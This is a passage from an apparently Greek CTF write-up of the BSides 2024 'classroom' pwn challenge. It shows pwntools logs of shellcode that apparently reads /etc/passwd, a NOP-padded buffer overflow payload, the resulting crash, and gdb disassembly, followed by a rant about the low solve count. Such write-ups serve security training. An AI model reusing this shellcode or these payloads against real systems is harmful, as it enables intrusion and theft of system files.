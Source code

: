 ```c
        pop rax
        mov rdi, r8
        mov rsi, rbx
        cdq /* rdx=0 */
        syscall
[DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-fzf2dxop/step2 /tmp/pwn-asm-fzf2dxop/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-fzf2dxop/step3 /tmp/pwn-asm-fzf2dxop/step4
00000000  6a 02 41 58  68 72 76 65  01 81 34 24  01 01 01 01  │j·AX│hrve│··4$│····│
00000010  48 b8 2f 65  74 63 2f 70  61 73 50 6a  02 58 48 89  │H·/e│tc/p│asPj│·XH·│
00000020  e7 31 f6 0f  05 48 89 c3  48 89 c7 6a  05 58 48 89  │·1··│·H··│H··j│·XH·│
00000030  e6 0f 05 48  83 c4 30 48  8b 14 24 49  89 d2 6a 28  │···H│··0H│··$I│··j(│
00000040  58 4c 89 c7  48 89 de 99  0f 05 61 61  74 61 61 61  │XL··│H···│··aa│taaa│
00000050  75 61 61 61  76 61 61 61  77 61 61 61               │uaaa│vaaa│waaa│
...[snip]...
[DEBUG] Sent 0x190 bytes:
    00000000  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    *
    00000080  90 90 90 90  90 90 90 90  0c 09 40 00  00 00 00 00  │····│····│··@·│····│
    00000090  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    *
    00000190
[*] Switching to interactive mode
[DEBUG] Received 0x3a bytes:
    00000000  57 68 61 74  20 61 72 65  20 79 6f 75  20 64 6f 69  │What│ are│ you│ doi│
    00000010  6e 67 20 68  65 72 65 3f  21 20 4b 69  64 73 20 61  │ng h│ere?│! Ki│ds a│
    00000020  72 65 20 6e  6f 74 20 61  6c 6c 6f 77  65 64 20 68  │re n│ot a│llow│ed h│
    00000030  65 72 65 21  20 f0 9f 94  9e 0a                     │ere!│ ···│··│
    0000003a
What are you doing here?! Kids are not allowed here! 🔞
[*] Got EOF while reading in interactive
$ 
[DEBUG] Sent 0x1 bytes:
    b'\n'
[*] Process '/home/kidd/Desktop/WORK/bsides24/pwn/classroom' stopped with exit code -11 (SIGSEGV) (pid 36508)
[*] Got EOF while sending in interactive
~/D/W/b/pwn $ 
```

But we are still crashing. Let's attach gdb and break at the address of our shellpoint.

```c
~/D/W/b/pwn $ gdb -q ./classroom
...[snip]...
pwndbg> disassemble kids_are_not_allowed_here 
Dump of assembler code for function kids_are_not_allowed_here:
   0x000000000040090c <+0>:     push   rbp
   0x000000000040090d <+1>:     mov    rbp,rsp
   0x0000000000400910 <+4>:     sub    rsp,0x10
   0x0000000000400914 <+8>:     lea    rax,[rip+0x34d]        # 0x400c68
   0x000000000040091b <+15>:    mov    QWORD PTR [rbp-0x8],rax
   0x000000000040091f <+19>:    mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400923 <+23>:    mov    rdi,rax
   0x0000000000400926 <+26>:    call   0x400720 <strlen@plt>
   0x000000000040092b <+31>:    mov    rdx,rax
   0x000000000040092e <+34>:    mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400932 <+38>:    mov    rsi,rax
   0x0000000000400935 <+41>:    mov    edi,0x1
   0x000000000040093a <+46>:    call   0x400700 <write@plt>
   0x000000000040093f <+51>:    lea    rdx,[rip+0x2016fa]        # 0x602040 <ans>
   0x0000000000400946 <+58>:    mov    eax,0x0
   0x000000000040094b <+63>:    call   rdx
   0x000000000040094d <+65>:    nop
```

[^Rant]: And ok, yeah, it was not a big event, nor was the CTF any larger. But only 3 solves? What's the play here? Everybody else is killing it out there in CTFs and IRL, and we are doing what exactly? Yes, there are teams from GR that are having success in global events, of course. But how are these teams seeded if in entry level events we are failing at the obvious? How is this not a problem, both for the scene and the security industry altogether?